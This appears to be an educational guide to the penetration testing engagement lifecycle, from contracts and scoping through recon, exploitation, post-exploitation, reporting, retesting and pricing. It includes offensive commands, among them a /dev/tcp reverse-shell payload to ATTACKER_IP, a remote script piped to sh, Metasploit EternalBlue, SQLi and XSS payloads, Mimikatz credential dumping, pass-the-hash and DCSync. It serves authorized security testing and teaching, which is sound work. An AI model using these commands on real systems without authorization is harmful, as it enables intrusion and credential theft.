



# Penetration Testing Engagement Model

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing — Fundamentals

Understanding how a penetration testing engagement works from first contact to final report is essential — whether you're a tester managing your own work or an organization buying testing services. This note covers the complete 7-phase engagement lifecycle with tools, timelines, pricing models, and framework mappings.

---

## Table of Contents
1. [The Full Engagement Lifecycle](#1-the-full-engagement-lifecycle)
2. [Phase 1 — Pre-Engagement](#2-phase-1--pre-engagement)
3. [Phase 2 — Reconnaissance](#3-phase-2--reconnaissance)
4. [Phase 3 — Vulnerability Discovery](#4-phase-3--vulnerability-discovery)
5. [Phase 4 — Exploitation](#5-phase-4--exploitation)
6. [Phase 5 — Post-Exploitation](#6-phase-5--post-exploitation)
7. [Phase 6 — Reporting](#7-phase-6--reporting)
8. [Phase 7 — Remediation Support](#8-phase-7--remediation-support)
9. [Framework Mapping](#9-framework-mapping)
10. [Timelines and Pricing Models](#10-timelines-and-pricing-models)

---

## 1. The Full Engagement Lifecycle



---

## 2. Phase 1 — Pre-Engagement

The most important phase — everything that happens before touching a single system.

### Goals
- Establish legal authorization
- Define scope boundaries precisely
- Align expectations between tester and client
- Set up communication channels and escalation procedures

### Activities and Deliverables

| Activity | Why It Matters | Deliverable |
|----------|---------------|-------------|
| Initial discovery call | Understand client's concerns and priorities | Meeting notes |
| Scope questionnaire | Collect system inventory, technologies, business context | Completed questionnaire |
| Threat modeling session | Identify most realistic threat actors and scenarios | Threat model document |
| Contract / MSA execution | Legal foundation for the engagement | Signed contract |
| NDA execution | Protects both parties' sensitive information | Signed NDA |
| ROE document | Operational rules for testing | Signed ROE |
| Network/architecture briefing | White/grey box — understand the target | Architecture diagrams |
| Kickoff meeting | Final alignment before testing begins | Kickoff meeting notes |

### Pre-Engagement Checklist

```
Legal Documentation:
□ Contract / Statement of Work signed
□ NDA signed by all testers with access
□ Rules of Engagement signed
□ Authorization letter ready (for physical tests)

Scope Clarity:
□ In-scope IP ranges / domains / applications listed
□ Out-of-scope systems explicitly documented
□ Third-party systems identified and excluded
□ Cloud provider policies checked

Operational Setup:
□ Testing windows agreed (dates, times, time zones)
□ Emergency contacts collected (with 24/7 coverage)
□ Deconfliction model agreed (full / partial / blind)
□ Source IPs confirmed and whitelisted
□ VPN/connectivity to target confirmed (for internal tests)
□ Credential sets provided (for grey/white box)

Technical Prep:
□ Attack machine OS updated
□ Tools updated to latest versions
□ VPN configured for remote internal access
□ Burp Suite professional license active
□ C2 infrastructure set up (red team only)
□ Logging enabled on attack machine
```

### Scoping Considerations

```bash
# External attack surface — initial scoping
amass enum -passive -d example.com | wc -l     # Count subdomains
shodan count 'org:"Example Corp"'               # Count internet-facing assets
censys search 'parsed.names: example.com'       # Certificate-based asset discovery

# Rough effort estimation:
# Small external (1-5 hosts, 1 app):      2-3 days
# Medium external (10-20 hosts, 3 apps):  5-7 days
# Large external (50+ hosts):             2-3 weeks
# Internal network (mid-size enterprise): 5-10 days
# Full AD assessment:                     5-7 days
# Combined scope:                         2-4 weeks
```

---

## 3. Phase 2 — Reconnaissance

Reconnaissance (recon) is intelligence gathering. The more you know about the target, the more effective and targeted your testing.

### Passive vs Active Recon



### Passive Reconnaissance Tools

```bash
# OSINT — Organization intelligence
theHarvester -d example.com -b google,bing,linkedin,hunter -l 500 -f harvest.html
# Finds: emails, subdomains, hosts, employee names from public sources

# WHOIS data
whois example.com
whois 203.0.113.0/24        # ASN and IP range owner

# DNS records
dig example.com ANY
dig axfr @ns1.example.com example.com    # Zone transfer (often blocked)
dnsrecon -d example.com -t std          # Standard DNS recon
dnsrecon -d example.com -t axfr         # Zone transfer attempt

# Certificate Transparency — subdomain discovery without scanning
curl "https://crt.sh/?q=%.example.com&output=json" | jq '.[].name_value' | sort -u
subfinder -d example.com -o subfinder_results.txt

# Shodan and Censys — internet-facing asset discovery
shodan search 'org:"Example Corporation"' --fields ip_str,port,product
shodan host 203.0.113.50       # Detailed info on specific IP
censys search 'autonomous_system.name: "EXAMPLE-CORP"'

# GitHub secret scanning
trufflehog github --org=examplecorp --only-verified
gitrob analyze examplecorp   # Search for sensitive files in GitHub repos
```

### Active Reconnaissance Tools

```bash
# Host discovery
nmap -sn 203.0.113.0/24                    # Ping sweep
masscan -p80,443,22,21 203.0.113.0/24 --rate=1000    # Fast port check

# Comprehensive port scan
nmap -sV -sC -p- -T4 --open 203.0.113.50 -oA nmap_full
# -sV: version detection
# -sC: default scripts
# -p-: all 65535 ports
# -T4: aggressive timing
# -oA: output in all formats (nmap/gnmap/xml)

# Service-specific enumeration
nmap --script=http-title,http-methods 203.0.113.50    # HTTP details
nmap --script=smb-os-discovery 192.168.1.0/24         # SMB OS detection

# Web technology fingerprinting
whatweb https://example.com -a 3              # Technology stack
wappalyzer https://example.com                # Tech stack via CLI

# Subdomain enumeration (active)
gobuster dns -d example.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u https://FUZZ.example.com -mc 200,301,302,403
```

### Recon Output — Attack Surface Map

By end of reconnaissance, you should have:

```
Attack Surface Map:
├── Network Assets
│   ├── 203.0.113.50 — Apache 2.4.51 (HTTPS 443, HTTP 80)
│   ├── 203.0.113.51 — OpenSSH 8.4, OpenVPN (UDP 1194)
│   └── 203.0.113.52 — Nginx (HTTPS 443)
├── Subdomains
│   ├── app.example.com → 203.0.113.50
│   ├── api.example.com → 203.0.113.52
│   ├── admin.example.com → 203.0.113.50 (403 from outside)
│   └── dev.example.com → 198.51.100.5 (development server!)
├── Technologies
│   ├── Frontend: React 17, jQuery 3.2.1 (outdated)
│   ├── Backend: PHP 7.4 (EOL), Apache 2.4.51
│   ├── Database: MySQL (inferred from error messages)
│   └── WAF: Cloudflare (detected by headers)
├── Potential Entry Points
│   ├── Login page: https://app.example.com/login
│   ├── API: https://api.example.com/v1/
│   ├── Admin panel: https://admin.example.com (investigate)
│   └── Dev server: http://dev.example.com (no WAF!)
└── OSINT Findings
    ├── 3 employee emails with format: first.last@example.com
    ├── Job posting mentions: AWS EC2, RDS PostgreSQL, Redis
    └── GitHub repo: github.com/example/backend (public! check for secrets)
```

---

## 4. Phase 3 — Vulnerability Discovery

Systematically identifying weaknesses across the attack surface.

### Vulnerability Discovery Methods

| Method | Coverage | False Positive Rate | Skill Required |
|--------|---------|---------------------|---------------|
| **Automated scanning** | Broad, fast | High | Low |
| **Manual testing** | Deep, targeted | Low | High |
| **Configuration review** | Architecture-level | Very low | Medium |
| **Code review** | Source-level | Very low | High |
| **CVE correlation** | Known vulns only | Medium | Medium |

### Automated Scanning

```bash
# Network vulnerability scanning
# Nessus (most comprehensive, commercial)
# Launch via Nessus UI at https://localhost:8834
# Policy: Advanced Scan or Web App Tests policy

# OpenVAS (open source alternative)
openvas-start
greenbone-nvt-sync                              # Update plugins
omp -u admin -w admin -G                        # List scan configs
omp -u admin -w admin -C "Full and fast" -t 203.0.113.50   # Run scan

# Web application scanning
nikto -h https://app.example.com -ssl -Tuning 123bde -output nikto.html -Format html
wpscan --url https://example.com --api-token YOUR_TOKEN --enumerate vp,vt,u
# wpscan: WordPress-specific, finds plugins, themes, user enumeration

# OWASP ZAP automated scan
zap-cli quick-scan --self-contained --start-options '-config api.disablekey=true' \
  -o '-config scanner.attackPolicy=Default Policy' https://app.example.com
```

### Manual Testing

Manual testing catches what automated scanners miss — business logic flaws, chained vulnerabilities, context-dependent issues.

```bash
# Web application manual testing (Burp Suite workflow)
# 1. Set browser proxy to 127.0.0.1:8080
# 2. Browse all application functionality (map the application)
# 3. Analyze requests in HTTP history
# 4. Test each input field for injection

# SQL Injection - manual
# Add single quote to all input fields
curl -b "session=SESS" "https://app.example.com/product?id=1'"
# Error-based: ' AND 1=CONVERT(int, @@version)--
# Time-based: ' AND SLEEP(5)--

# XSS - manual
# Test reflected XSS
curl "https://app.example.com/search?q=<script>alert(1)</script>"
# Stored XSS - submit in all text fields

# IDOR (Insecure Direct Object Reference)
# Change user ID in requests:
curl -H "Cookie: session=YOUR_SESSION" https://app.example.com/api/users/1001
curl -H "Cookie: session=YOUR_SESSION" https://app.example.com/api/users/1002
# Compare responses — should they differ?

# Directory traversal
curl "https://app.example.com/download?file=../../../../../../etc/passwd"
curl "https://app.example.com/download?file=..%2F..%2Fetc%2Fpasswd"
```

### Vulnerability Classification

```
CVSS Score Classification:
Critical (9.0–10.0): Fix immediately — exploitation likely active
High     (7.0–8.9):  Fix within 7–14 days
Medium   (4.0–6.9):  Fix within 30–60 days
Low      (0.1–3.9):  Fix within 90 days
Info     (0.0):       No CVSS — informational, context-dependent

Business Impact Categories (overlay with CVSS):
┌─────────────────────────────────────────────────────┐
│           Low Impact     High Impact                 │
│ Low Likelihood  [Low]      [Medium]                 │
│ High Likelihood [Medium]   [Critical]               │
└─────────────────────────────────────────────────────┘
```

---

## 5. Phase 4 — Exploitation

Proving that vulnerabilities are actually exploitable and demonstrating real-world impact.

### Exploitation Principles

1. **Never exploit beyond what's needed** — the goal is demonstrating impact, not maximum damage
2. **Capture evidence at every step** — screenshots, command outputs, timestamps
3. **Log everything** — timestamped record of all commands run
4. **Prefer stable exploits** — avoid exploits that could crash services in production

### Common Exploitation Techniques

```bash
# ─────────────────────────────────────────────────────
# METASPLOIT FRAMEWORK
# ─────────────────────────────────────────────────────
msfconsole

# Search for exploits
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.10
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 10.10.10.5
msf6 exploit(ms17_010_eternalblue) > run

# ─────────────────────────────────────────────────────
# SQL INJECTION → DATA EXTRACTION
# ─────────────────────────────────────────────────────
sqlmap -u "https://app.example.com/product?id=1" \
  --dbs --batch --random-agent --level=3 --risk=2
# --dbs: enumerate databases
sqlmap -u "..." -D targetdb --tables
sqlmap -u "..." -D targetdb -T users --dump --stop 10   # Only first 10 rows

# ─────────────────────────────────────────────────────
# COMMAND INJECTION
# ─────────────────────────────────────────────────────
# Test payloads:
# ; id
# | id  
# && id
# `id`
# $(id)
# ; ping -c 1 ATTACKER_IP   (out-of-band detection)

# Reverse shell via command injection:
# nc listener first:
nc -lvnp 4444
# Injection payload:
# ; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# ─────────────────────────────────────────────────────
# CREDENTIAL ATTACKS
# ─────────────────────────────────────────────────────
# Password spraying (single password, many users — avoids lockout)
crackmapexec smb 192.168.1.0/24 -u users.txt -p 'Summer2024!' --continue-on-success
crackmapexec winrm 192.168.1.10 -u administrator -p rockyou.txt   # Brute force (approved)

# Default credential testing
hydra -L /usr/share/wordlists/defaults/usernames.txt \
      -P /usr/share/wordlists/defaults/passwords.txt \
      https://app.example.com http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid"

# ─────────────────────────────────────────────────────
# SSRF (Server-Side Request Forgery)
# ─────────────────────────────────────────────────────
# Test internal resource access:
curl "https://app.example.com/fetch?url=http://169.254.169.254/latest/meta-data/"    # AWS IMDSv1
curl "https://app.example.com/fetch?url=http://localhost:8080/admin"                  # Internal service
curl "https://app.example.com/fetch?url=http://192.168.1.1/"                         # Internal network
```

### Evidence Collection

```bash
# Always capture:
# 1. Command/payload used
# 2. Response proving exploitation
# 3. Timestamp
# 4. Screenshot (for report)

# Timestamped terminal logging:
script -t 2>timing.log -a output.log      # Record entire terminal session (Linux)
# PowerShell logging:
Start-Transcript -Path "C:\engagement\session.log" -Append

# Screenshots with metadata:
# On Kali: scrot -d 1 evidence_$(date +%Y%m%d_%H%M%S).png
# Flameshot: flameshot gui   (annotate before saving)
```

---

## 6. Phase 5 — Post-Exploitation

Demonstrating the full impact of a successful compromise.

### Post-Exploitation Objectives



### Linux Post-Exploitation

```bash
# ─────────────────────────────────────────────────────
# SITUATIONAL AWARENESS
# ─────────────────────────────────────────────────────
id && whoami && hostname && uname -a     # Who am I, what OS
ip addr && route -n                      # Network interfaces
ps aux                                   # Running processes
cat /etc/passwd | grep -v nologin        # Users with shell access
cat /etc/cron* /var/spool/cron/*        # Scheduled tasks
find / -perm -4000 2>/dev/null           # SUID binaries

# ─────────────────────────────────────────────────────
# PRIVILEGE ESCALATION
# ─────────────────────────────────────────────────────
sudo -l                                  # What sudo permissions?
# If: (ALL) NOPASSWD: /usr/bin/vim
# GTFOBins: sudo vim -c ':!/bin/sh'

# LinPEAS — comprehensive Linux PE script
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# Or transfer to target:
python3 -m http.server 8000              # On attacker
wget http://ATTACKER_IP:8000/linpeas.sh  # On target
chmod +x linpeas.sh && ./linpeas.sh > linpeas_output.txt

# ─────────────────────────────────────────────────────
# CREDENTIAL HARVESTING
# ─────────────────────────────────────────────────────
cat /etc/shadow                          # Password hashes (if root)
find / -name "*.conf" -exec grep -l "password\|passwd" {} \; 2>/dev/null
find / -name "id_rsa" 2>/dev/null        # SSH private keys
cat ~/.bash_history                      # Command history (often has passwords)
grep -r "DB_PASS\|DATABASE_URL\|REDIS_URL" /var/www/ 2>/dev/null  # App configs
```

### Windows Post-Exploitation

```bash
# ─────────────────────────────────────────────────────
# SITUATIONAL AWARENESS
# ─────────────────────────────────────────────────────
whoami /all                              # Full user context with privileges
net user && net localgroup administrators
systeminfo                               # OS version, patches
ipconfig /all && route print
tasklist /v                             # Running processes

# ─────────────────────────────────────────────────────
# PRIVILEGE ESCALATION
# ─────────────────────────────────────────────────────
# WinPEAS
.\winpeas.exe > winpeas_output.txt

# PowerUp (PowerSploit)
powershell -ep bypass -c "Import-Module PowerSploit; Invoke-AllChecks"

# Token impersonation (if SeImpersonatePrivilege)
# PrintSpoofer: .\PrintSpoofer64.exe -i -c powershell
# JuicyPotato / RoguePotato (older systems)

# ─────────────────────────────────────────────────────
# CREDENTIAL DUMPING (requires local admin)
# ─────────────────────────────────────────────────────
# Mimikatz
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"     # SAM database

# Via Meterpreter
meterpreter > getsystem
meterpreter > hashdump
meterpreter > run post/windows/gather/credentials/credential_collector
```

### Active Directory Post-Exploitation

```bash
# BloodHound data collection (on domain-joined Windows)
.\SharpHound.exe -c All --zipfilename bloodhound.zip
# Transfer to attacker machine → import to BloodHound

# Kerberoasting
impacket-GetUserSPNs -request -dc-ip 192.168.1.100 DOMAIN/user:password
# Crack offline: hashcat -m 13100 hashes.txt rockyou.txt

# Pass-the-Hash (PTH)
impacket-psexec -hashes :NTHASH DOMAIN/Administrator@192.168.1.100
evil-winrm -i 192.168.1.100 -u Administrator -H NTHASH

# DCSync — extract all domain hashes
impacket-secretsdump DOMAIN/Administrator@dc.domain.local
# Results in all NTLM hashes for entire domain
```

---

## 7. Phase 6 — Reporting

The report is the only tangible deliverable the client keeps. A perfect technical assessment means nothing if the report doesn't communicate findings clearly.

### Report Structure

```
PENETRATION TEST REPORT
EXAMPLE CORPORATION
Engagement Reference: ENG-2024-0001
Testing Period: 2024-01-15 to 2024-01-19

─────────────────────────────────────────────────────────────
1. EXECUTIVE SUMMARY (1-2 pages)
   - Overall risk rating (Critical/High/Medium/Low)
   - Key findings in plain English
   - Business impact summary
   - Most urgent recommendations
   - Trend vs previous assessment (if applicable)

2. SCOPE AND METHODOLOGY
   - In-scope systems
   - Testing approach (black/grey/white box)
   - Frameworks used (OWASP, PTES, NIST)
   - Testing window and limitations

3. FINDINGS SUMMARY
   Table: Finding | Severity | CVSS | Status
   Visual: Risk rating distribution chart

4. DETAILED FINDINGS (one section per finding)
   4.1 [CVE/Finding Title]
       - Severity: Critical / High / Medium / Low / Info
       - CVSS v3.1 Score: X.X
       - CVSS Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
       - Affected System(s): [list]
       - Description: What is the vulnerability?
       - Evidence: Screenshot + command output
       - Business Impact: What could an attacker do?
       - Reproduction Steps: Step-by-step PoC
       - Remediation: Specific fix guidance
       - Reference: CVE-XXXX-YYYY, CWE-89, OWASP A03

5. ATTACK PATH NARRATIVE
   Story of the full compromise chain from initial access to 
   domain admin / crown jewel access. Includes diagram.

6. APPENDICES
   A. Full vulnerability list with CVSS scores
   B. Raw tool output (Nmap, Nessus/OpenVAS, etc.)
   C. Methodology reference
   D. Tester credentials / PGP key
```

### Risk Rating Criteria

| Rating | CVSS Range | Business Impact | Fix Timeline |
|--------|-----------|----------------|--------------|
| **Critical** | 9.0–10.0 | Full system compromise, mass data breach | Immediate (0–24 hours) |
| **High** | 7.0–8.9 | Significant system access, data exposure | 7–14 days |
| **Medium** | 4.0–6.9 | Limited access, information disclosure | 30 days |
| **Low** | 0.1–3.9 | Minor impact, hardening recommendation | 90 days |
| **Info** | N/A | No direct risk but worth noting | Next review cycle |

---

## 8. Phase 7 — Remediation Support

The engagement isn't complete when the report is delivered. Professional pentesters provide ongoing support to help organizations actually fix the issues found.

### Remediation Support Activities

```
Immediate post-report:
  - Debrief meeting: walk through all findings with technical team
  - Q&A: developers and engineers ask questions about PoC steps
  - Priority guidance: help client triage findings by urgency

During remediation period:
  - Available for technical questions (patch selection, config changes)
  - Review proposed remediations before implementation (some fixes introduce new issues)
  - Track remediation progress in shared tracker

Retest (typically 30–90 days after report):
  - Re-test all patched findings
  - Verify fixes are effective (don't just accept "we applied the patch")
  - New findings from retest go in supplemental report
  - Mark each finding: Remediated / Partially Remediated / Not Remediated / Risk Accepted
```

### Remediation Verification Commands

```bash
# Re-test patched SQL injection
# Before: returned database error or data
# After: should return generic error or no data
curl "https://app.example.com/product?id=1'" -v   # Should get generic error, not DB error

# Re-test patched SSRF
curl "https://app.example.com/fetch?url=http://169.254.169.254/latest/meta-data/"
# Should be blocked

# Re-test patched outdated component
# Apache 2.4.51 → patched to 2.4.57
curl -I https://app.example.com | grep Server    # Verify version update

# Re-test default credentials
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 \
  https://admin.example.com http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid"
# Should not find valid credentials

# Re-test EternalBlue / MS17-010
nmap --script=smb-vuln-ms17-010 192.168.1.10
# Should show: NOT VULNERABLE
```

---

## 9. Framework Mapping

Professional pentests are mapped to established frameworks to ensure coverage and communicate methodology to auditors.

### PTES / OWASP / NIST Mapping

| Engagement Phase | PTES Phase | OWASP WSTG Phase | NIST SP 800-115 Phase |
|-----------------|------------|-----------------|----------------------|
| Pre-Engagement | Pre-engagement Interactions | Pre-engagement | Planning |
| Reconnaissance | Intelligence Gathering | Information Gathering | Discovery |
| Vulnerability Discovery | Vulnerability Analysis | Testing | Discovery |
| Exploitation | Exploitation | Testing | Attack |
| Post-Exploitation | Post Exploitation | Testing | Attack |
| Reporting | Reporting | Reporting | Reporting |
| Remediation | — | — | — |

### MITRE ATT&CK Mapping in Reports

Modern reports increasingly map findings to ATT&CK TTPs:

```
Finding: Credential Dumping via Mimikatz
  ATT&CK Technique: T1003.001 — OS Credential Dumping: LSASS Memory
  ATT&CK Tactic: TA0006 — Credential Access

Finding: Pass-the-Hash Lateral Movement
  ATT&CK Technique: T1550.002 — Use Alternate Authentication Material: Pass the Hash
  ATT&CK Tactic: TA0008 — Lateral Movement

Finding: Kerberoasting
  ATT&CK Technique: T1558.003 — Steal or Forge Kerberos Tickets: Kerberoasting
  ATT&CK Tactic: TA0006 — Credential Access
```

---

## 10. Timelines and Pricing Models

### Typical Engagement Timelines

| Engagement Type | Typical Duration | Testing Days | Reporting Days |
|----------------|-----------------|-------------|----------------|
| Small web app (1 app, black box) | 1–2 weeks | 3–5 days | 2–3 days |
| Medium web app + API | 2–3 weeks | 5–7 days | 3–5 days |
| External network (20 hosts) | 1–2 weeks | 3–5 days | 2–3 days |
| Internal network assessment | 2–3 weeks | 5–10 days | 3–5 days |
| Active Directory full assessment | 2 weeks | 5–7 days | 3–5 days |
| Red team engagement | 6–12 weeks | 20–40 days | 5–10 days |
| Full-scope combined assessment | 4–8 weeks | 15–30 days | 7–14 days |

### Pricing Models

| Model | Description | Best For | Example |
|-------|-------------|---------|---------|
| **Daily Rate** | Fixed fee per day of testing | Variable-scope projects | $2,000–$5,000/day (US) |
| **Fixed Fee** | Flat price for defined scope | Well-defined, repeating engagements | $15,000–$40,000 per web app pentest |
| **Retainer** | Monthly/annual access to pentest services | Ongoing security programs | $50,000–$200,000/year |
| **Bug Bounty** | Pay-per-valid-bug | Continuous coverage, large attack surface | $500–$50,000+ per valid critical bug |
| **Crowdsourced** | Managed program via Cobalt/Synack | Specific budget, competitive testing | $15,000–$30,000 per credit-based test |

### Typical Market Rates (2024)

| Market | Junior Rate | Senior Rate | Red Team Rate |
|--------|------------|-------------|---------------|
| **US Market** | $150–$200/hr | $250–$350/hr | $350–$500/hr |
| **UK Market** | £500–£700/day | £900–£1,400/day | £1,400–£2,000/day |
| **EU Market** | €600–€900/day | €1,000–€1,500/day | €1,500–€2,500/day |
| **Remote/Global** | $100–$150/hr | $175–$275/hr | $275–$400/hr |

---

> **Note:** The engagement model described here is the professional standard. Real engagements are rarely perfectly linear — new findings in exploitation may send you back to reconnaissance, and scope changes happen. Flexibility and clear communication with the client are what separate professional pentesters from amateurs.

> **Warning:** Never skip the pre-engagement phase to save time. Every "we'll sort out the details as we go" engagement ends in scope disputes, legal ambiguity, or unhappy clients. The contract and ROE are your protection as much as the client's.
